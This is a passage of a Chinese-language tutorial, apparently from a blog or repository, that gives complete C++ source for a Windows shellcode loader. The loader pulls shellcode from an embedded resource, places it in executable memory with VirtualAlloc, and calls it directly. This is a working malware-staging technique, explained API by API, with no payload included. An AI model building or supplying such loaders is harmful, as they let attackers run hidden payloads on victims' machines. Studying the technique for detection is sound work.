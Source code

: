 

添加完资源后会在当前项目生成一个resource.h, 代码如下所示，这里只需注意这段代码`#define IDR_SHELLCODE1 101`

```cpp
#include <Windows.h>
#include "resource.h"


//{{NO_DEPENDENCIES}}
// Microsoft Visual C++ 生成的包含文件。
// 供 Shellcode加载器.rc 使用
//

//IDR_SHELLCODE1 通常用于标识和引用项目中的某个资源，例如嵌入到可执行文件中的二进制数据、图像或其他类型的资源，在项目的其他部分（例如代码或资源脚本中），可以通过使用 IDR_SHELLCODE1 符号来引用这个资源，而不是直接使用数字常量（如 101
#define IDR_SHELLCODE1                  101

// Next default values for new objects
// 
#ifdef APSTUDIO_INVOKED
#ifndef APSTUDIO_READONLY_SYMBOLS
#define _APS_NEXT_RESOURCE_VALUE        102
#define _APS_NEXT_COMMAND_VALUE         40001
#define _APS_NEXT_CONTROL_VALUE         1001
#define _APS_NEXT_SYMED_VALUE           101
#endif
#endif
```



## 实现代码

以下是完整shellcode加载器代码: 

```cpp
#include <Windows.h>
#include "resource.h"

//通过资源加载ShellCode
void ResourceLoader() {

    /*
    FindResource用于查找指定模块（EXE或DLL文件）中指定名称和类型的资源,其语法格式如下:
    HRSRC FindResource(
          HMODULE hModule,  //指向包含要查找的资源的模块的句柄,若该参数为NULL，则查找当前进程中的资源
          LPCTSTR lpName,   //指向资源名称的指针，可以是一个字符串或者一个整数，若是一个整数，则它是一个由MAKEINTRESOURCE宏定义的资源标识符
          LPCTSTR lpType    //指向资源类型的指针，可以是一个字符串或者一个整数。若是一个整数，则它是一个由MAKEINTRESOURCE宏定义的资源类型标识符
    );
    如果查找成功，则返回资源句柄；否则返回NULL
    */
    HRSRC Res = FindResource(NULL, MAKEINTRESOURCE(IDR_SHELLCODE1), L"shellcode");

    //用于获取资源的大小
    DWORD ResSize = SizeofResource(NULL, Res);

    //LoadResource函数会将指定资源句柄所指向的资源数据加载到内存中，并返回一个指向该资源数据的句柄
    HGLOBAL Load = LoadResource(NULL, Res);

    //申请内存
    void* buffer = VirtualAlloc(NULL, ResSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(buffer, Load, ResSize);

    //执行shellcode
    ((void(*)(void)) buffer)();
}
```